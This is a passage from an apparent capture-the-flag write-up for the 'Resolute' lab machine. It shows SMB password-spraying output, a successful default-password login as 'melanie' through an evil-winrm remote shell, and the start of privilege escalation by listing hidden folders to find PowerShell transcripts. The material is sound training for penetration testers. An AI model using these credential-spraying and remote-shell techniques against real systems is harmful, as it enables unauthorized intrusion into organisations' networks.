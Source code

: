 ```
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
[+] zach
session setup failed: NT_STATUS_LOGON_FAILURE
[+] simon
session setup failed: NT_STATUS_LOGON_FAILURE
[+] naoki
session setup failed: NT_STATUS_LOGON_FAILURE
```

Our default password worked for `melanie`! Let's try using her account to login remotely via Windows Remote Management:
```
kali@kali:~$ evil-winrm -i resolute.htb -u melanie -p 'Welcome123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> 
```
Grab user hash from `melanie`'s Desktop.

### Priv: melanie -> ryan
At this stage, you could run the awesome [winpeas.exe binary](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) to do some standard enumeration, or you could be like me and just go around looking for interesting stuff. 
  
  
If you did the latter, eventually you would come across the `PSTranscripts` folder, which is sort of like the PowerShell equivalent of `.bash_history`. This folder is usually hidden in the `C:\` directory, and is only visible if you force it to show with a `-Force` option:
```
*Evil-WinRM* PS C:\> dir -Force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-        5/30/2020   7:56 PM      402653184 pagefile.sys
```
